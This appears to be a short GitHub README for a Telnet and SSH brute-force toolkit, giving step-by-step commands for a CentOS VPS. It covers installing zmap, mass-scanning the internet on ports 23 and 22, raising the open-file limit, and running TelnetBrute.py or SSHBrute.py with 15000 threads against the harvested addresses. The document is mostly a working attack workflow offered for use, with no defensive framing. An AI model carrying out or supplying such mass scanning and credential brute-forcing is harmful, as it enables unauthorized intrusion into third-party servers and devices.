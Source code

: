 [VPS CentOS 6.9 2GB-RAM] 

- Install zmap

yum update -y 

sh zmap_auto_install.sh

- Scan Telnet/Ssh Ips

1- zmap -p23 -o mfutelnet.txt -N 25000    ---OR---    zmap -p22 -o mfussh.txt -w -N 25000

   1,5--(optional)  zmap -p23 -o mfutelnet.txt -w telnet.lst   ---OR---   zmap -p22 -o mfussh.txt -w ssh.lst

- Bruteforce 

2- ulimit -n 999999

3- python TelnetBrute.py mfutelnet.txt 15000 telnettest.txt    ---OR---    python SSHBrute.py mfussh.txt 15000 sshtest.txt 




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



